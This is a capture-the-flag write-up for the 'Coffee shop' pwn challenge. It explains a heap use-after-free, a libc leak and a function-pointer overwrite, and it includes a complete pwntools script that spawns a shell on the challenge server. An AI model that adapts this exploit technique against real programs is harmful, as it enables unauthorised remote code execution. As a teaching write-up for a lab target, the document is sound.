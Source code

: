 # Coffee shop

Category: Pwn

13 solves, 486 points

> Userspace heap feng shui is too complicated. Here is a peak into kernel heap exploitation. Use your instincts. 

Despite the challenge description being somewhat scary, there is no need to know anything about kernel exploitation to solve this challenge. It really is a very simple heap UAF vulnerability.

## Analysis

When the binary is run, we are presented with a menu. We can buy several items, create, edit, delete and view complaints, or speak to the manager. This complaints functionality is the most interesting.

By filing a complaint, we can malloc an arbitrarily sized chunk on the heap. A pointer to this chunk is stored in an array. 

When a complaint is reverted, the chunk is freed, but the pointer to it is not zeroed out. This is a use after free vulnerability.

```c
void revert_complaint(){
  int index;

  index = get_index();
  if ( index != -1 )
    free((void *)complaints[index]);
}
```

Since we are able to read freed chunks, it is possible to leak the libc base by reading the metadata of a unsort bin chunk.

~~Additionally, as we can edit complaints, it is possible to modify the pointers stored in the freed chunk that are used to manage memory allocation. In this exploit, we will deal with the tcache. Tcache freed chunks have the following structure:~~

```c
typedef struct tcache_entry
{
  struct tcache_entry *next;  // the next tcache block
  /* This field exists to detect double frees.  */
  struct tcache_perthread_struct *key;  // newly pointer in struct
} tcache_entry;
```

~~By writing an arbitrary memory location to the `next` pointer, we can trick malloc into returning an arbitrary pointer, allowing us to achieve arbitrary writes and thus RCE.~~

EDIT: Actually, we don't even need to do that. We can just allocate and free a suitably size chunk and malloc will return that. We don't need to write to anywhere outside the heap in this exploit.

But where should we write to? Let's look at the `get_manager` function. 

```c
if ( !manager )
    manager = (__int64)malloc(0x10uLL);
```

First, 16 bytes are allocated using malloc. This stores the manager metadata. Next, a menu is printed. Interestingly, if the user enters option 1, a function pointer is called!

```c
if ( v1 == 1 ){
    printf("What's price of your item?: ");
    __isoc99_scanf("%lu", &v2);
    (*(void (__fastcall **)(__int64))(manager + 8))(v2);
}
```

Since `manager` is allocated using malloc, we could get malloc to return a pointer to a chunk we control, like one of the complaints. This would allow us to manipulate the function pointer, setting it to something like `system`, then calling it with `"/bin/sh"` , thus obtaining a shell.

### The plan

Stage 1: Leak libc base (we'll need to find `system` address)

1. Allocate a large chunk (>1032 bytes so that it goes to unsort bin)
1. Allocate a smaller chunk of size 20 (prevents the large chunk merging into the top chunk). We'll call this chunk X
1. Free the first chunk
1. Read chunk X
1. Compute offset from libc base
1. Subtract offset to get libc base

In my case, I found the offset was `0x1ebbe0`.

Stage 2: Writing manager function pointer

1. Allocate a small chunk to act as a stopper to prevent chunk X from being merged with the top chunk
2. Free chunk X
3. Call the `get_manager` function, with option 2 (essentially a no-op). This calls malloc, which returns chunk X.
4. Write chunk X to "AAAAAAAA" + system address
5. Call `get_manager` with option 1. For the item price, we can enter the address of `/bin/sh`. This will allow us to obtain a shell when the function pointer is called.



## Exploit 

```python

from pwn import *

ld = ELF("./ld-2.31.so", checksec=False)
libc = ELF("./libc-2.31.so", checksec=False)

def edit(index: int, data: bytes|str):
    p.recvuntil('>')
    p.sendline('6')
    p.recvuntil('Please enter your complaint\'s ID:')
    p.sendline(str(index))
    p.recvuntil('Write your complaint (again):')
    p.sendline(data)

def malloc(length: int, data: bytes|str):
    p.recvuntil('>')
    p.sendline('4')
    p.recvuntil('How many characters does your complaint contain:')
    p.sendline(str(length))
    p.recvuntil('Write your complaint:')
    p.sendline(data)


def free(index: int):
    p.recvuntil('>')
    p.sendline('5')
    p.recvuntil('Please enter your complaint\'s ID:')
    p.sendline(str(index))


def read(index: int):
    p.recvuntil('>')
    p.sendline('7')
    p.recvuntil('Please enter your complaint\'s ID:')
    p.sendline(str(index))


e = ELF("./coffee_shop")
context.binary = e

def setup():
    #p = process([ld.path, e.path], env={"LD_PRELOAD": libc.path})
    p = remote("coffee-shop.chal.idek.team", 1337)
    return p


if __name__ == '__main__':
    p = setup()

    malloc(1279,b"a"*10)
    malloc(20,b"a"*10)
    free(0)
    read(0)
    leak = p.recvline()[1:-1]
    leak = u64(leak+b"\0\0")
    libc.address = leak-0x1ebbe0
    malloc(20,b"a"*10)
    free(1)
    p.sendline("8")
    p.sendline("2")
    edit(1,b"A"*8+p64(libc.sym.system))
    sh = next(libc.search(b"/bin/sh"))
    p.sendline("8")
    p.sendline("1")
    p.sendline(str(sh))
    
    p.interactive()

```